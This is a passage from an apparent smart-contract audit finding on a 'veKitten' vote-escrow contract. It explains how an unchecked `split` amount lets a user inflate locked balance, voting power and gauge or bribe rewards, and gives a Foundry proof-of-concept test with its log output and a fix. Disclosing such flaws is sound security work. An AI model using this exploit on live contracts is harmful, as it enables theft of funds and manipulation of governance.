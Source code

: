 ```solidity
            _from,
            _tokenId1,
            _tokenId2,
            msgSender,
            uint(uint128(locked[_tokenId1].amount)),
            uint(uint128(_splitAmount)),
            _locked.end,
            block.timestamp
        );
    }
```

This can be abused by initially depositing a small amount of tokens, then calling `split` with an arbitrary amount to create a large `locked` data. Then can be withdrawn at the end of the lock period, and also grants an arbitrary amount of voting power and balance, which can be used to claim rewards from gauges and bribes.

PoC :

```solidity
    function testSplitVeKittenUnderflow() public {
        testDistributeVeKitten();

        vm.startPrank(user1);

        uint veKittenId = veKitten.tokenOfOwnerByIndex(user1, 0);
        (int128 lockedAmount, uint endTime) = veKitten.locked(veKittenId);

        (uint t1, uint t2) = veKitten.split(veKittenId, uint256(uint128(lockedAmount)) * 100);

        (int128 lockedAmountSplit, ) = veKitten.locked(t2);

        console.log("initial token to split locked amount :");
        console.log(lockedAmount);
        console.log("splitted token locked amount :");
        console.log(lockedAmountSplit);

        vm.stopPrank();
    }
```

Log output :

```shell
Logs:
  initial token to split locked amount :
  100000000000000000000000000
  splitted token locked amount :
  10000000000000000000000000000
```

## Recommendations

Validate that the provided `_amount` does not exceed the locked amount of the split token.

---
